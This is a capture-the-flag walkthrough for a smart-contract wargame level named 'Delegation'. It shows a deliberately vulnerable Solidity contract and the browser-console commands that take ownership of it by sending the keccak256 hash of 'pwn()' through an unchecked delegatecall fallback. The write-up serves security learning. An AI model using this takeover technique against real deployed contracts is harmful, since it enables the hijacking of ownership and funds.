 # 06 Delegation

```
The goal of this level is for you to claim ownership of the instance you are given.
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}

```

#### Start 


### (1) ` claim ownership`

The hint he tells us about delegatecall 


Looking at the code, You can see  the contract have `fallback()` and use `delegatecall()` 

#### `delegatecall()` 

Exampl. when A `delegatecall()` to B, the code runs in contract B scope, but when updating storage it updates to contract A scope.

warning the storage structure must be the same

how do we do

.

.

.


.

.

.

As you can see, in contract Delegation there is use `delegatecall()` in `fallback()` function to the contract Delegate, 

and in the Delegate contract there is a `function pwn() public` which changes the owner `owner = msg.sender`

means that we have to call fallback and put msg.data with  `function pwn()`

#### Open Developer Tools (F12)

- (1)  In `msg.data` , the data to be sent must be hashed first, which is done by use web3.utils.keccak256 or web3.utils.sha3

    type `web3.utils.keccak256("pwn()")` 

    you will see a message 

    `'0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab'` this is msg.data to call  `function pwn()`

- (2) We will need to pass `msg.data` to the `fallback()` function to trigger a `delegatecall` with our `msg.data`
  
  
    type `await contract.sendTransaction({data: "0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab"})` 
    
    and confirm transaction




Click button Submit instance and confirm transaction

# !!! we passed !!!


